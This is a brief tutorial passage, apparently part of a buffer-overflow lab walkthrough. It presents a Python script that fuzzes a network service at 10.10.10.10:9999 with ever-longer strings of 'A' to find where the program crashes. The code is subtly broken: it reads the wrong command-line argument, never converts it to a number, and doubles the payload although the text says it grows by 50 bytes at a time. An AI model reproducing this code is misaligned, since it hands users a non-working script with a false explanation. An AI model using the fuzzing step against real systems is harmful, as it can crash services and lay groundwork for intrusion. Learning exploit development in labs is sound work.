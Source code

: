 You gotta find the point the program crash, which you can use python.

```python
import socket
import sys
from time import sleep

ip, port = "10.10.10.10", 9999
fuzzer = sys.argv[2]
prefix = b"" # change this if necessary and make sure theres a space at the end.

while True:
	try:
		s = socket.socket()
		s.connect((ip, port))
		s.send(prefix + b"A"*fuzzer)
		sleep(1)
		fuzzer = fuzzer+fuzzer
	except:
		print(f"Crashed at {fuzzer} bytes")
		sys.exit()
```

Run this with 
Ex. `python3 fuzzer.py 50`
This will fuzz the port with 50 bytes then 100 then 150 etc.
